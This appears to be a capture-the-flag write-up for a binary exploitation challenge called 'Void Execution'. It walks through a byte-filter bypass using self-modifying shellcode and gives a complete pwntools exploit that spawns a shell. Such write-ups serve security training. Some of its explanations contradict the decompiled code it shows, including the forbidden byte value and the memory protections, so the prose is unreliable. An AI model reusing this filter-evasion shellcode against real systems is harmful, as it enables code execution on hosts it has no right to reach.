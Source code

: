 ```yaml
---
title: "Void Execution"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `voidexec` and `libc.so.6` file.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *s; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  s = mmap((void *)0xC0DE0000LL, 0x64uLL, 7, 34, -1, 0LL);
  memset(s, 0, 0x64uLL);
  puts("\nSend to void execution: ");
  read(0, s, 0x64uLL);
  puts("\nvoided!\n");
  if ( (unsigned __int8)forbidden(s) )
    exit(1);
  mprotect(s, 0x64uLL, 4);
  ((void (*)(void))s)();
  return 0;
}
```

The binary reads shellcode from the user and executes it. The shellcode is stored in a memory region that is marked as read-only. The binary then calls `mprotect` to change the memory region to read-write and then changes the memory region to read-execute. Finally, the binary calls the shellcode.

The `forbidden` function checks if the shellcode contains the bytes `0x15` or `0xCD 0x80`. If the shellcode contains these bytes, the binary exits.

```c
__int64 __fastcall forbidden(__int64 a1)
{
  unsigned __int64 i; // [rsp+10h] [rbp-10h]

  for ( i = 0LL; i <= 0x62; ++i )
  {
    if ( *(_BYTE *)(a1 + i) == 15 || *(_BYTE *)(a1 + i) == 0xCD && *(_BYTE *)(i + 1 + a1) == 0x80 )
    {
      puts("Forbidden!");
      return 1LL;
    }
  }
  return 0LL;
}
```

The idea is to write a shellcode that does not contain the forbidden bytes and execute it. So we need to write a shellcode that does not contain the bytes `0x15` or `0xCD 0x80`.

So we can write the `syscall` or `int 0x80` instructions in a different way. We can use the `inc` instruction to increment the value of the byte at the address of the instruction before the instruction executes. This way we can avoid the forbidden bytes. But the memory region is marked as read-only. So we need to change the memory region to read-write to modify the `syscall` or `int 0x80` instructions.

Since the binary is **PIE** enabled, we need to calculate the address of the `mprotect` function. To find the **PIE** base address, we need to find which register is storing some function address from the binary. So i found that the `r13` register is storing the address of the `main` function. So we can calculate the address of the `mprotect` function by subtracting the address of the `main` function from the address of the `mprotect` function. Now we can use the `lea` instruction to load the address of the `mprotect` function to the `rbx` register.

```asm
lea rbx, [r13 - main + mprotect]
```

Now we can write the shellcode to call the `mprotect` function to change the memory region to read-write and then change the memory region to read-execute. Finally, we can write the shellcode to call the `execve` syscall.

```asm
mov rdi, 0xC0DE0000
mov rsi, 0x64
mov rdx, 0x7
call rbx
```

Voila! We can now write the shellcode to call the `execve` syscall.

```py
from pwn import *

binary = './voidexec'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.150.155', 9008)

shellcode = asm(f'''
    lea rbx, [r13 - {e.sym['main']} + {e.plt['mprotect']}]

    mov rdi, 0xC0DE0000
    mov rsi, 0x64
    mov rdx, 0x7
    call rbx

    mov rax, 0x3b
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx

    inc byte ptr [rip + syscall]
    inc byte ptr [rip + syscall + 1]
    
syscall:
    .byte 0x0e, 0x04
''')
log.info(f'Length of shellcode: {len(shellcode)}')

r.recvuntil(b'Send to void execution: ')
r.sendline(shellcode)
r.interactive()
```

## References

- [Shellcode Challenge 3](https://cov-comsec.github.io/posts/2021_assembly_and_shellcoding_walkthrough/#solution-shellcode-challenge-3)
